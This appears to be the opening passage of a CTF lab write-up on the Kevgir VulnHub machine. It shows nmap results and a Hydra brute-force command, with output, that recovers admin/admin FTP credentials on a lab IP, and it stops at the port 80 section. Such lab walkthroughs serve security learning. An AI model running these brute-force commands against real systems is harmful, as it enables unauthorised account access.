 ```yaml
---
layout: post
title: "Pwning Kevgir"
date: 2017-12-02 14:08:05 -0500
comments: true
categories: [penetration testing, writeups]
keywords: kevgir, kevgir 1, kevgir vulnhub, vulnhub, pentest lab, hacking lab, ctf, patator, hydra, fcrackzip, redis, jenkins
description: Kevgir writeup
---
```


Kevgir is a machine vulnerable to multiple web application vulnerabilities designed by the *canyoupwnme* team. So..can we pwn it? Let's see!



Nmap results reveal that we'll have lots of targets to attack. So I'm going to break the format a little bit, and present the results for each port, along with the ways to hack it.

## Port 25 FTP bruteforce with Hydra

``` 
PORT      STATE SERVICE     VERSION
25/tcp    open  ftp         vsftpd 3.0.2
|_smtp-commands: SMTP: EHLO 530 Please login with USER and PASS.\x0D
```

Couldn't find exploits for this and no anonymous access, so I tried the bruteforce route. Decided to try some other lists from the myriad available on Kali, and wasn't disappointed when I put Hydra to work:

``` 
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/mirai_pass.txt ftp://192.168.217.128:25
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-12-02 15:08:02
[DATA] max 16 tasks per 1 server, overall 16 tasks, 4816 login tries (l:112/p:43), ~301 tries per task
[DATA] attacking ftp://192.168.217.128:25/
[25][ftp] host: 192.168.217.128   login: admin   password: admin
```

I used the credentials to log to the FTP server, but didn't find anything particularly interesting. Let's move on!

## Port 80 phpmyadmin bruteforce with patator

``` 
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Kevgir VM
```
